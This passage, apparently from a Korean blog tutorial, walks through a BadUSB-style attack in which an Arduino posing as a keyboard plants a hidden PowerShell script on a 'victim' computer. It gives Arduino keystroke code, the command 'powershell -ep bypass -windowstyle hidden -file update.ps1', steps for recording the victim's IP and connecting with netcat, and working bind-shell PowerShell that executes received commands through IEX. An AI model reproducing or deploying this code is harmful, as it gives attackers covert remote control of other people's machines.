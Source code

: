 ```js
    delay(200);
    Keyboard.release(KEY_RETURN);
    delay(1000);
    Keyboard.print(EEPROM.get(1, stringArray));
}
```

위의 코드는 복잡해 보일 수 있으니, 단계별로 살펴보도록 하죠:



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

- 아두이노를 피해자 컴퓨터에 연결한 후 왼쪽 버튼을 누르면, 프로그램이 명령 프롬프트를 실행하고, 거기에 PowerShell 쉘 코드를 저장하는 updateSource라는 명령 프롬프트 변수를 생성합니다.
- 그 후에 프로그램은 updateSource의 값이 기록된 PowerShell 스크립트 update.ps1을 생성합니다.
- 마지막으로 프로그램은 명령 프롬프트 코드 powershell -ep bypass -windowstyle hidden -file update.ps1을 실행합니다. 이로써 update.ps1 프로그램이 백그라운드에서 실행됨을 보장합니다.
- Exploit을 마치기 전에, 프로그램은 다시 PowerShell을 실행하고 피해자의 IP 주소를 EEPROM에 기록합니다. 이것은 이전에 설명한 WiFi 암호를 전송하는 것과 유사합니다.
- 아두이노를 피해자 컴퓨터에서 분리한 후 내 컴퓨터에 연결합니다. 이번에는 오른쪽 버튼을 눌러 피해자의 IP 주소를 언로드합니다.
- bind shell을 설정하기 위해 netcat 연결을 수립하여 공격을 완료합니다.

아래는 정리된 셸 코드 버전입니다:

```js
# 쉘 기능 정의
function windowsUpdate {
  $stream = $client.GetStream();
  [byte[]]$bytes = 0..65535 | %{0};
  $sendbytes = ([text.encoding]::ASCII).GetBytes('Running as user '+$env:username+' on '+$env:computername+'.');
  $stream.Write($sendbytes, 0, $sendbytes.Length);
  $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>');
  $stream.Write($sendbytes, 0, $sendbytes.Length);
  while (($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0) {
    $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding;
    $data = $EncodedText.GetString($bytes,0,$i);

    try {
      # 공격자로부터 명령 수신
      $sendback=(IEX -Command $data 2 >&1 | Out-String );
    }
    catch {}
    $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> ';
    $x = ($error[0] | Out-String);
    $error.clear();
    $sendback2 = $sendback2 + $x;
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
  }
  $client.Close();
  if ($listener) {
    $listener.Stop();
  }
}

```